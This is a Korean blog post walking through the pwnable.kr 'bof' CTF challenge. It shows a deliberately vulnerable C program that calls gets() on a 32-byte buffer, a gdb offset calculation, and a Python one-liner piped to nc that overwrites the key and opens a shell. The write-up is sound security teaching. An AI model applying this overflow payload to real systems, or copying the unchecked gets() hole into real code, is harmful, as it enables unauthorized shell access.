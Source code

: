 ```yaml
---
layout: post
title: pwnable bof
categories: [pwnable]
tags: [pwnable, Toddler's Bottle]
fullview: true
comments: true
use_math: true
author: fault2000
---
```


이번 문제는 nc를 통해 실행되는 프로세스에만 접근이 가능하다. 그래서 실행되는 파일을 볼 수 있도록 다운로드 링크를 제공하니, bof와 bof.c를 받아놓고 먼저 머리를 박아보자.  

![image](https://user-images.githubusercontent.com/73513005/185579276-0847c6cc-1f04-4408-b242-deefa01b0644.png)

실행하면 일단 우리의 입력을 기다린다. 아무거나 입력을 해주었더니 overflow me: 가 뜨고 입력할 틈도 없이 Nah...라며 틀렸음을 알려준다. 이걸로는 단서가 부족하다. c파일을 보러가자.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

main과 func 함수로 구성되어 있으며, main에서는 단순하게 func에 0xdeadbeef를 인자로 주기만 하고 별다른 행동 없이 종료되며, func에서는 overflowme라는 char형 32바이트 크기의 변수를 선언하고 여기에 gets를 통해 입력을 받는다. 그 뒤 받았던 0xdeadbeef를 담은 key와 0xcafebabe를 비교하여 맞으면 flag를, 틀리면 오류를 출력한다.  
여기서 이미 문제 이름부터 힌트를 주고 있는데, 버퍼 오버플로우를 통해 푸는 문제이다. 선언된 key뒤 overflowme가 선언되는데, 이를 gets로 받으므로 오버플로우에 대한 대비가 하나도 없다. 즉 overflowme와 key간에 거리만 알아내어 정확한 자리에 deadbeef를 cafebabe로 덮어써주면 된다는 이야기다.  

***

![image](https://user-images.githubusercontent.com/73513005/185582643-e95361ea-0417-4881-98c2-d17249748e21.png)

위 그림은 gdb에서 본 func 함수이다. 여기서 우리는 빨간 밑줄이 쳐진 두 부분에 집중하자. 첫 번째 줄위에는 puts, 아래에는 gets 명령이 있는데, 이는 함수 본문에서 printf와 gets 명령 사이임을 짐작할 수 있고, 즉 이 값이 overflowme의 주소임을 유추할 수 있다. 다음 빨간 줄 아래에는 jne, 비교 명령이 있는데, 함수에서 비교하는 과정은 오직 if 문밖에 없기도 하고, 비교대상이 0xcafebabe인 것으로 보아 0x8(%ebp)가 key 값이 저장되어 있는 곳임을 유추할 수 있다.  
즉 -0x2c(%ebp)와 0x8(%ebp)의 거리 차이를 구하고(0x2c+0x8=0x34=52) 이를 채워넣은 다음 원하는 값을 넣으면 될 것임을 짐작할 수 있다.  
이제 직접해보자. 먼저 아무 값이나 52개 넣어주고 그 뒤 0xcafebabe를 넣어주면 된다. 구성은 다음과 같다.  

> python -c "print ('a'*52 + '\xbe\xba\xfe\xca')"

이제 이를 명령어와 조합하여 답을 만들자. 여기서 유의할 점은 그냥 이것만 써놓으면 입력을 할 수 없는 상태에서 아무런 반응이 없다. 반드시 print 뒤에 ;cat을 써주어 우리의 입력을 받는 상태로 만들어주어야함을 인지하자.  

> (python -c "print ('a'*52 + '\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000

그 뒤 cat flag를 통해 정답을 볼 수 있다.

![image](https://user-images.githubusercontent.com/73513005/185605596-42fac84a-8627-4bff-9e50-d20aab8ebd2a.png)